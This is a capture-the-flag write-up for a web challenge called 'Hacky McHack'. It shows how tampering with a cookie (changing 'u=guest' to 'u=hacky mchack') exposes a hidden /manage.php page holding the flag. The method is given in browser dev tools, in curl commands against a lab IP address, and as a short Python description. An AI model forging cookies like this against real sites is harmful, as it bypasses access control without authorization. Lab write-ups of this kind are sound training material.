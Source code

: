 ## Virgin: From the Browser

We visit to the URL, open the Developer Tools and go over to the "Storage" tab.
There we see the server has given ass the cookie `u=guest`.

![Hacky McHack - Initial Cookie](../../assets/hacky-mchack-cookies.png)

Since the challenge is called "Hacky McHack" we set the cookie value to `hacky mchack`.
We notice a new tab has appeared at the top of the page or by inspecting the HTML source: **Manage** (`/manage.php`).
We click on it and get the flag.

```
<ul class="nav-menu list-unstyled">
    <li><a href="index.php" class="smoothScroll">Home</a></li>
    <li><a href="#about" class="smoothScroll">About</a></li>
    <li><a href="#portfolio" class="smoothScroll">Portfolio</a></li>
    <li><a href="#journal" class="smoothScroll">Blog</a></li>
    <li><a href="#contact" class="smoothScroll">Contact</a></li>
        <li><a href="manage.php" class="smoothScroll">Manage</a></li>
    </ul>
```

## Chad v1: From the CLI

We use our good friend `curl`.
First, we save the cookies from the initial page into a cookie jar.
```
root@kali:~# curl -c cookies.txt http://141.85.224.70:8010
[...]

root@kali:~# cat cookies.txt
# Netscape HTTP Cookie File
# https://curl.haxx.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

http://141.85.224.70:8010	FALSE	/	FALSE	1656864260	u	guest
```

Now we edit the file and replace `guest` with `hacky mchack` and send a `GET` request to `/manage.php`.
```
root@kali:~# sed -i s/guest/hacky\ mchack/ cookies.txt

root@kali:~# curl -b cookies.txt http://141.85.224.70:8010/manage.php
```

If we didn't want to use the cookie jar, we could have simply looked at the headers sent by the server then sent the cookie "manually":
```
root@kali:~# curl -v http://141.85.224.70:8010 > /dev/null  # we don't care about the output
[...]
< HTTP/1.1 200 OK
< Date: Sun, 03 Jul 2022 16:10:51 GMT
< Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.2.34
< Set-Cookie: u=guest; expires=Sun, 03-Jul-2022 16:11:51 GMT; Max-Age=60

root@kali:~# curl -b 'u=hacky mchack' $URL/manage.php  # Notice the Set-Cookie field above
<here we get the flag>
```

## Chad v2: From Python

Simply create a `Session` object, set the cookie `u` to `hacky mchack`, then send a `GET` request to the `/manage.php` endpoint.
